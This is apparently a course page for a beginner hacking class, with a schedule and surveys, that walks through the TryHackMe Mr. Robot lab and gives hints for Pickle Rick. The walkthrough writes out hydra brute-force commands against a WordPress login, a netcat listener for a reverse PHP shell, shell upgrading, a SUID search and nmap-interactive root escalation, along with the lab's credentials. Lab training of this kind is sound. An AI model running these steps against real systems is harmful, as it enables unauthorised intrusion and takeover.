 # Thursday July 21st 2022

![HackerGif](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fmedia.
giphy.com%2Fmedia%2F75ulb3H2XHf5S%2Fsource.gif&f=1&nofb=1)

## 📆 Today's Schedule

- **Previous Classes Review and Survey**: 1:30 PM - 1:55 PM (25 Minutes)
- **Kahoot**: 1:55 PM - 2:10 PM (15 Minutes)
- **Hacking Mr. Robot**: 2:10 PM - 3:00 PM (50 Minutes)
- **Break**: 3:00 PM - 3:15 PM (15 Minutes)
- **Hacking Pickle Rick**: 3:15 PM - 4:00 PM (45 Minutes)

---

  What goes into the survey?

  Please take this survey, it is completely anonymous and will help
  for future classes

  [https://qfreeaccountssjc1.az1.qualtrics.com/jfe/form/SV_4PzMPxfSb60DMYm](htt
  ps://qfreeaccountssjc1.az1.qualtrics.com/jfe/form/SV_4PzMPxfSb60DMYm)

## 🏔 Previous Classes Review And Survey

!!! info "Lets Discuss What We Have Done In Class"

??? success "Class Survey"

    Please take this survey, it is completely anonymous and will help
    for future classes

    [https://qfreeaccountssjc1.az1.qualtrics.com/jfe/form/SV_4PzMPxfSb60DMYm](htt
    ps://qfreeaccountssjc1.az1.qualtrics.com/jfe/form/SV_4PzMPxfSb60DMYm)

??? success "Demographics Survey"

    Lets get some counts of the demographics

## 🎣 Phishing Kahoot

!!! warning "Can you pick out the legit scam or contact requests?"

## 🤖 Hacking Mr. Robot

!!! danger "Only hack machines that you have permission to do so"

[Walkthrough Link](https://www.youtube.com/watch?v=BQ4xeeNAbaw)

??? success "Step 1: Setup"

    We will connect to the TryHackMe servers using a vpn connection

    The Mr.Robot box must be started for us to actually be able to connect to
    the machine

??? success "Step 2: Active Reconnaissance"

    We are given an IP. Lets scan the IP for any open ports and services

    `nmap -sV -sC -oA <file> <ip>`

    What do the flags mean?

??? success "Step 3: More Recon"

    We see that there are open ports 80 and 443 for a webserver, lets visit
    the website.

??? success "Step 4: robots.txt"
    
    Lets see if anything is in the common robots.txt directory. Robots.txt
    will have folders and files that you don't want indexed by the browser.

    We have obtained key 1

??? success "Step 5: Directory brute force"

    Lets use gobuster to see if there are other endpoints on the web server
    that are useful to us.

    `gobuster dir -u http://10.10.170.179 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 -q -o scans/gosmall.txt

    We see wordpress - lets try that.

??? success "Step 6: Wordpress site"

    Lets capture a login request with burp suite.

    When we play with the login, we see that it tells us when the username
    exists or not. Lets use this to our advantage.

    `hydra -L fsocity.dic -p random 10.10.170.179 http-post-form "wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 4`

    We see the login is **Elliot**

    Lets try the passwords.

    `hydra -l Elliot -P fsocity.dic 10.10.170.179 http-post-form "wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 4`

    The password is: **ER28-0652**

??? success "Step 7: Wordpress Reverse Shell Vulnerability"

    Lets create a reverse shell into the machine hosting the server.

    We must find a reverse-php-shell on the internet and paste it into the
    archives page. Change the ip and port to matching your machine

    Lets start a nc instance and listen on port 53 (or any port)

    `nc -lvnp 53`

    We are now in the machine as DAEMON

??? success "Step 8: Escalate Privileges"

    Notice which users we can access and see what is there.

    Obtain the password

    Lets upgrade our shell

    `python -c 'import pty;pty.spawn("/bin/bash")'`

    Now we can `su robot` to login with the password we found and obtain the
    second flag

??? success "Step 9: Get Root Privileges"

    Lets look for programs that when run, run as the root user. 

    `find / -perm +6000 2>/dev/null | grep '/bin'`

    We see nmap - lets run an interactive shell

    ```
    /usr/local/bin/nmap --interactive
    !sh
    ```

    `ls /root/`

    At this point, we are a root user and can get the last key.

## 👍 Hacking Picle Rick

!!! task "Your Turn To Hack"

??? abstract "Hints"

    - You will need to use nmap to scan the open ports

    - Visit the file that excludes directories

    - You will need to use gobuster to scan the directories and inspect things

    "gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt"

    - Login page is "login.php"

    - Try to make a reverse shell using netcat
    
    - sudo su

